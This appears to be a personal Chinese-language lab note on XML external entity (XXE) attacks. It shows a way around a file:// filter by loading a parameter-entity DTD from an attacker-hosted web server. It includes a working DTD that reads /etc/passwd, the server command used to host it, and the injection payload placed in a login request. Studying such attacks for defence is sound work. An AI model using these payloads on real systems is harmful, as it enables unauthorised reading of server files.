


---
tags:
  - XXE
  - WEB
Date: 2026-01-05
---
当直接使用外部实体伪协议file://的时候，如果被过滤



则需要利用参数实体的方式获取DTD
利用http伪协议远端读取下载dtd文件给参数实体
然后调用参数实体

在\tmp下构建dtd文件
```XML
<!ENTITY guc SYSTEM "file:///etc/passwd">
```
这也是真正读取文件的外部实体

然后搭建web服务
```zsh
python3 -m http.server 7777
```

测试网页



已经生成好了1.dtd，接下来在响应包利用参数实体即可
```XML
<!DOCTYPE root [<!ENTITY % sky SYSTEM "http://172.28.222.35:7777/1.dtd"> %sky;]>

<user><username>&guc;</username><password>a</password></user>
```

参数实体的定义要在`%`后加上空格定义


在终端监听也能看到先访问了本地web


